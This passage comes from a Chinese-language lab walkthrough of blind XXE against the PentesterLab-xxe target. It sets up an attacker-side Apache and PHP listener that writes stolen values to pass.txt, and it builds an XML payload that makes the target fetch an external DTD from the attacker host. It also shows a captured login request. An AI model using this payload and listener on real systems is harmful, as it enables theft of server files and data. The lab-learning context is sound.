 ```
┌──(root㉿Kali-24)-[~]
└─# touch pass.txt 
```

修改文件权限，以便于数据可以写入

```
┌──(root㉿Kali-24)-[~]
└─# chown -R www-data:www-data /var/www/html/*
```

启动 apache2

```
┌──(root㉿Kali-24)-[~]
└─# systemctl start apache2.service
```

测试 php 文件能否正常写入数据

```
┌──(root㉿Kali-24)-[~]
└─# curl http://192.168.1.24/xxe.php?pass=666
```

查看 pass.txt 文件

```
┌──(root㉿Kali-24)-[/var/www/html]
└─# cat pass.txt
666
```

>成功写入

构造 XML payload 使目标向黑客请求 DTD

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE e1 SYSTEM "http://192.168.1.24/xxe.dtd">
<hello>&e1;</hello>
```

**演示**

浏览器访问目标 `PentesterLab-xxe`

> http://192.168.1.25/login

打开 `BurpSuite` 拦截，在登录界面提交任意字符

查看截获的请求数据包

```http
POST /login HTTP/1.1
Host: 192.168.1.25
Content-Length: 25
Cache-Control: max-age=0
Origin: http://192.168.1.25
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.25/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=123&password=123
```